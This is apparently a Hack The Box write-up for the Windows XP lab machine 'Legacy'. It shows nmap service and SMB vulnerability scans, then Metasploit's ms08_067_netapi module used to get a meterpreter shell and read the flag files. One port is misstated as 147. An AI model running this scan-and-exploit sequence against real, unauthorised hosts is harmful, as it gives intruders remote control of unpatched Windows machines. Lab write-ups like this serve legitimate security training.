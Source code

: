 ```yaml
---
layout: default
title: "Legacy"
tags: hackthebox windows y2020 easy
---
```


| OS       | Difficulty | Points | Release Date  | IP Address  |
|----------|------------|--------|---------------|-------------|
| Windows  | Easy       | 20     | 15 March 2017 | 10.10.10.4  |



# Skills

* NMap
* NMap Scripts
* Metasploit

# Information Gathering

## Nmap (Port Scan)

```bash
sudo nmap -A -T4 -p- 10.10.10.4
```

This was the initial nmap scan. The key things to note is that:
* ```139/tcp open microsoft-ds  Windows XP microsoft-ds```
* ```445/tcp open  netbios-ssn   Microsoft Windows netbios-ssn```
were both open.

```bash
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows XP|2003|2000|2008 (94%), General Dynamics embedded (88%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_server_2008::sp2
Aggressive OS guesses: Microsoft Windows XP SP3 (94%), Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows XP (92%), Microsoft Windows Server 2003 SP2 (92%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows 2000 SP4 (91%), Microsoft Windows XP SP2 or Windows Server 2003 (91%), Microsoft Windows Server 2003 (90%), Microsoft Windows XP Professional SP3 (90%), Microsoft Windows XP SP2 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h29m19s, deviation: 2h07m16s, median: 4d22h59m19s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:77:a5 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-07-19T01:40:36+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   26.12 ms 10.10.14.1
2   27.55 ms 10.10.10.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.33 seconds
```

## Nmap (SMB Vulnerability Scan)

```bash
sudo nmap --script smb-vuln* -p 139,445 10.10.10.4
```

Then, using the NMap script ```smb-vuln```, I scanned the open ports discovered (```139``` & ```147```) from the previous scan to see if the SMB version was vulnerable to any known exploits.

```bash
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 5.54 seconds
```

# Exploitation

## Searching for MS08-067

Once I discovered that the machine was vulnerable to ```MS08-067```, I then searched for the matching metasploit module to begin exploitation.

```bash
msf5 > search MS08-067

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


msf5 > use 0
```

## Setting Module Options

Then for configuration. There wasn't a whole lot configuration for this exploit, just set the ```RHOSTS``` to the target machines IP Address (```10.10.10.4```)

```bash
msf5 exploit(windows/smb/ms08_067_netapi) > options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf5 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4

```   

# User Flag

Once completed, I then had a meterpreter shell on the machine. Finally, using the meterpreter command ```search``` with the ```-f``` flag, we can easily locate the flag files.

```bash
meterpreter > cd ..
meterpreter > cd ..
meterpreter > pwd
C:\
meterpreter > search -f user.txt
Found 1 result...
    c:\Documents and Settings\john\Desktop\user.txt (32 bytes)
meterpreter > cat "Documents and Settings\john\Desktop\user.txt"

```

# Root Flag

```bash
meterpreter > search -f root.txt
Found 1 result...
    c:\Documents and Settings\Administrator\Desktop\root.txt (32 bytes)
meterpreter > cat "Documents and Settings\Administrator\Desktop\root.txt"

```